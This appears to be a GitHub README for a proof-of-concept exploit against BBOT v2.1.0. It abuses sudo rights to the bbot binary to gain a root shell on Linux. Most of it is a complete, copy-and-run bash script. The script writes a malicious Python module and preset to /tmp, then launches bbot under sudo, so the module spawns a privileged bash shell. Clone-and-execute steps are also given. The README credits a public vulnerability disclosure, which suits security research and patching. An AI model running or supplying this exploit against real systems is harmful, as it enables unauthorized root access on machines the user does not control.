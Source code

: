 # BBOT v2.1.0 - Local Privilege Escalation

<br><br>
<div align="center">
  <img width="150" src="https://www.blacklanternsecurity.com/bbot/Stable/bbot.png" alt="bbot-logo"> <br><br>
  <p>BBOT v2.1.0<br>
  <b>Local Privilege Escalation to Root</b> <br>
  PoC Exploit<br>
  </p>
<img src="https://www.zyenra.com/assets/img/bbot-poc-exploit-2.png">
</div>


---

### Introduction

`BBOT` version 2.1.0 allows local root privilege escalation when `sudo` rights are granted to `/usr/local/bin/bbot`.  
By injecting a malicious module and referencing it through a preset, arbitrary Python code runs as root during module loading.

This bypasses all sandboxing due to `bbot` trusting unvalidated local modules and loading them with root permissions.

---

### Usage

```bash
git clone https://github.com/rvizx/bbot-privesc
cd bbot-privesc
chmod +x exploit.sh

# usage
./exploit.sh
```


---

<div align="center"> <br> <b>OR</b> <br><br> </div>


---

Copy the following exploit code
```bash
#!/usr/bin/env bash

# Title  : BBOT v2.1.0 - Local Privilege Escalation - PoC Exploit
# Author : Ravindu Wickramasinghe (aka rvz)
# Usage  : usage: ./exploit.sh

set -e
D="/tmp/.x"; M="x.py"; P="p.yml"; N="x"

trap 'rm -rf "$D"' EXIT

mkdir -p "$D"

cat > "$D/$M" <<EOF
from bbot.modules.base import BaseModule
import pty
class $N(BaseModule):
 async def setup(self): pty.spawn(["/bin/bash", "-p"])
EOF

cat > "$D/$P" <<EOF
description: x
module_dirs: [$D]
modules: [$N]
EOF

sudo /usr/local/bin/bbot -t x -p "$D/$P" --event-types ROOT || true
```

Save copied content to `exploit.sh` and execute
```
chmod +X exploit.sh
./exploit.sh
```


<be>
<b>Note:</b> This exploit requires `NOPASSWD` sudo access to `/usr/local/bin/bbot`.

---

### Credits

Original Vulnerability Disclosure [Link](https://seclists.org/fulldisclosure/2025/Apr/19) - Discovered by Housma Mardini <br>
PoC Exploit at [Link](https://github.com/rvizx/bbot-privesc) - Ravindu Wickramasinghe AKA rvz
